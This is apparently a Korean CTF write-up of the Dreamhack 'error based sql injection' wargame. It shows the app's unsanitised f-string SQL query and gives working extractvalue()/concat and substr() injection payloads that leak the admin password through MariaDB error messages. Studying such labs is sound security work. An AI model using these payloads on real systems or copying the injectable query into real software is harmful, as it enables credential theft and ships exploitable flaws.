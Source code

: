 ```yaml
---
title: "드림핵 lv.1 - error based sql injection"
date: 2025-02-28 00:10:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, error based sql injection] 
description: 드림핵 error based sql injection 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/412](https://dreamhack.io/wargame/challenges/412)
# 문제 설명
Simple Error Based SQL Injection !

---
# 문제 풀이
## 웹사이트 분석
사이트에 접속하게 되면 `uid` 값을 입력할 수 있고 내가 입력한 값이 포함된 쿼리문을 볼 수 있다.<br />

```
(1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'substr(1,1,1)'' at line 1")
```
error based 인젝션을 연습하는 문제이기 때문에 에러를 발생시킬 만한 쿼리를 작성해보니 위와 같은 에러 메세지가 발생한다. 내가 사용한 `uid` 값은 `' substr(1,1,1)`이다.<br />

여기서 알 수 있는 정보는 쿼리문이 성공했을 때에는 아무것도 뜨지 않지만 에러가 발생했을 때에는 그에 맞는 에러 메세지가 출력된다. 이를 이용해서 플래그를 알아낼 수 있을 것 같다.
## 코드 분석
```
[Code Structure]
deploy/
	- app.py
	- init.sql
	- requirements.txt
	- run.sh
DockerFile
```
### init.sql
```sql
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
FLUSH PRIVILEGES;
```
서버가 실행될 때 DB를 초기화해주는 정보가 담겨있는 파일이다. admin이라는 유저의 비밀번호가 플래그이다.
### app.py
```python
@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        try:
            cur = mysql.connection.cursor()
            cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
            return template.format(uid=uid)
        except Exception as e:
            return str(e)
    else:
        return template
```
살펴볼 것도 없이 `uid`로 들어오는 값을 필터링하지 않고 바로 쿼리문에 집어넣고 있기 때문에 인젝션 취약점이 존재하는 코드이다.
## 최종 풀이
MYSQL에서 `extractvalue()` 함수를 이용하면 함수로 전달된 두 번째 인자의 명령어가 실행된 값을 에러메세지에서 얻어낼 수 있다.<br />
### 문제점
```sql
admin' and (SELECT extractvalue(1,concat(0x3a,(SELECT upw FROM user WHERE uid='admin')))) -- 
```
`uid`값으로 위의 문자열을 입력하면 `(1105, "XPATH syntax error: ':DH{c3968c78840750168774ad951...'")` 이런식으로 admin 유저의 `upw`가 출력이 된다.<br />

하지만 여기선 큰 문제가 있다. <br />
출력되는 결과에 글자 수 제한이 있기 때문이다. 그래서 플래그가 끝까지 나오지 않고 잘려서 나온다.
### substr()로 해결하기
```sql
admin' and (SELECT extractvalue(1,concat(0x3a,(SELECT substr(upw, 29, 20) FROM user WHERE uid='admin')))) --
```
이때 쿼리에 `substr()` 함수를 추가하면 그 뒤의 나머지 비밀번호를 얻어낼 수 있다. <br />
기존으로 출력된 비밀번호가 총 28자리 이니까 `substr(upw, 29, 20)`를 작성하여 29번째 자리부터 20자리까지 읽는 동작을 수행한다.<br />

이렇게 되면 에러 메세지로 나머지 비밀번호가 출력된다.
# 배운 것
`extractvalue()` 함수의 에러 메세지에는 출력할 수 있는 문자열의 길이에 상한선이 정해져있다는 것을 배웠다. <br />
그리고 이를 해결하기 위해서 다른 여러가지 방법들이 있지만 `substr()`도 방법이 될 수 있다는 것을 알게됐다.